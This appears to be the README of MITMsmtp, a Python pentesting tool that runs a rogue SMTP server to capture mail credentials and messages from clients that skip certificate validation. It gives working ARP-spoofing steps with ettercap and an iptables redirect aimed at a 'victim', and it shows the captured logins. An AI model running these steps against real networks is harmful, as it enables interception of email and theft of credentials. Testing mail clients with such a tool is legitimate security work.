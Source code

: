 # MITMsmtp
MITMsmtp is an Evil SMTP Server for pentesting SMTP clients to catch login credentials and mails sent over plain or SSL/TLS encrypted connections. The idea is to catch sensitive emails sent by clients which are not correctly verifying the SMTP servers identity in SSL/TLS mode. MITMsmtp will catch username and password as well as the message itself. This way you might gain access to a companies mail server or catch information like password reset tokens or verification links sent by applications. Using those information you might gain more and more access to a system. MITMsmtp has been built to work together with MITM Attacks like ARP Spoofing to terminate encrypted connections. MITMsmtp could be used as a honeypot as well.

MITMsmtp offers a command line tool as well as an open Python3 API which can be used to build own tools for automated pentesting of applications.

## Compatibility
MITMsmtp has been tested against the SMTP client of Thunderbird 60.5.3 and some other SMTP clients.

### Connection Security
MITMsmtp supports the following connection security modes:
* Plaintext
* STARTTLS
* SSL/TLS

### Login Methods
MITMsmtp supports the following login methods:
* PLAIN
* LOGIN

Challenge-Response based authentication methods like CRAM-MD5, NTLM or Kerberos can't be supported as these methods require the server to know the cleartext password.

## Setup
MITMsmtp requires Python3 and setuptools. You might want to install git as well. Use the following command on Debian:

`apt install python3 python3-setuptools git`

Now just clone the MITMsmtp repository:

`git clone https://github.com/RobinMeis/MITMsmtp.git`

Change into MITMsmtp directory and start the installation:

`sudo python3 setup.py install`

That's it!

### Updating
`git pull`

`sudo python3 setup.py install`

## Usage
*This section describes the command line usage. For the API reference, please refer to API section.*

Running `MITMsmtp --help` will give you an overview about the available command line switches:
```
usage: MITMsmtp [-h] [--server_address SERVER_ADDRESS] [--port PORT]
                [--STARTTLS] [--SSL] [--certfile CERTFILE] [--keyfile KEYFILE]
                [--log LOG] [--disable-auth-plain] [--disable-auth-login]
                [--print-lines]

MITMsmtp is an Evil SMTP Server for pentesting SMTP clients to catch login
credentials and mails sent over plain or SSL encrypted connections.

optional arguments:
  -h, --help            show this help message and exit
  --server_address SERVER_ADDRESS
                        IP Address to listen on (default: all)
  --port PORT           Port to listen on (default: 8587)
  --STARTTLS            Enables and requires STARTTLS Support (default: False)
  --SSL                 Enables SSL Support (default: False)
  --certfile CERTFILE   Certfificate for SSL Mode (default: Default MITMsmtp
                        Certificate)
  --keyfile KEYFILE     Key for SSL Mode (default: Default MITMsmtp Keyfile)
  --log LOG             Directory for mails and credentials
  --disable-auth-plain  Disables authentication using method PLAIN (default:
                        False)
  --disable-auth-login  Disables authentication using method LOGIN (default:
                        False)
  --print-lines         Prints communication between Client and MITMsmtp
                        (default: False)
```

When running `MITMsmtp` without any parameters it will start an unencrypted SMTP server on port 8587 on all interfaces. Pointing Thunderbird or any other SMTP client will give you the ability to test MITMsmtp. Please keep in mind that the default port MITMsmtp differs from the SMTP default port.

As soon as a client has logged in, you will get the following information:

```
=== Login ===
Username: user@example.com
Password: SuperSecureAndUncrackablePassword
```

After the client has transmitted it's message, you will get basic information about the message:

```
=== Complete Message ===
Username  : user@example.com
Password  : SuperSecureAndUncrackablePassword
Client    : [192.168.178.42]
Sender    : user@example.com
Recipients: recipient-a@example.com
            recipient-b@example.com
```

If you want to get the full message, you have to enable logging.

### Logging
Running `MITMsmtp --log logdir` will enable logging. Please make sure that the directory exists. MITMsmtp will create n+1 files while n is the amount of received messages. Each mail will be written into a new file like it has been received. Additionally all received credentials are stored in `credentials.log`.

### Encryption
Some clients fallback to unencrypted mode if you don't offer SSL/TLS. Always make sure to test this! For clients which don't fallback, you may want to test the encrypted mode. Please keep in mind, that a correctly configured client won't be vulnerable to this attack. You will be unable to fake a trusted certificate for a validated common name and thus the client will stop connection before sending credentials. However some clients don't implement proper certificate validation. This is where this attack starts.

#### STARTTLS
STARTTLS is available for MTIMsmtp. When enabled it will enforce STARTTLS.

To use MITMsmtp with the example certificates run `MITMsmtp --STARTTLS`.

#### SSL/TLS
To run MITMsmtp in SSL mode you need a certificate and the according key. You can use the example in certs/. For some clients you might need to generate own certificates to bypass certain validation steps.

To use MITMsmtp with the example certificates run `MITMsmtp --SSL`.

## MITM
This section shows the usage of MITMsmtp if you are able to intercept the victims traffic.

### ARP Spoofing
ARP Spoofing is one way to get between Victim and Router. In case you have the ability to modify your routers settings, you might skip this step. There are many other ways to perform MITM Attacks like DHCP Race-Conditions or DNS Spoofing. These instructions are just a basic idea how to use MITMsmtp. First of all you need the victims and the routers IP address. Make also sure that your client is connected to the same subnet.

In this example the Routers IP will be *192.168.42.1* and the Victims IP will be *192.168.42.24*. Run the following commands as root.

First of all we are going to enable forwarding mode:

`sysctl -w net.ipv4.ip_forward=1`

To make sure that out victim doesn't find a way around us, block ICMP redirects:

`sysctl -w net.ipv4.conf.all.send_redirects=0`

Next we create a port forwarding rule from SMTP default port 587 to MITMsmtp. Please make sure that your victim uses port 587 and adjust if needed.

`iptables -t nat -A PREROUTING -p tcp --destination-port 587 -j REDIRECT --to-port 8587`

To start ARP Spoofing you will need ettercap. Run the following command and replace the IP addresses according to your setup:

`ettercap -T -M arp /192.168.42.24/ /192.168.42.1/`

Finally you can fire up MITMsmtp:

`MITMsmtp --log log/`

#### Limitations
As we perform a port forward, MITMsmtp can't determine the original packet destination. This means that MITMsmtp can't log the real SMTP server name or IP. If you need these information, just run wireshark while catching mails using MITMsmtp and filter for `tcp.port==587` or `dns`. This way you will be able to get the domain name as well as the original IP.

## Reference
[1] https://tools.ietf.org/html/rfc5321

[2] http://www.samlogic.net/articles/smtp-commands-reference-auth.htm

[3] https://tools.ietf.org/html/rfc3207
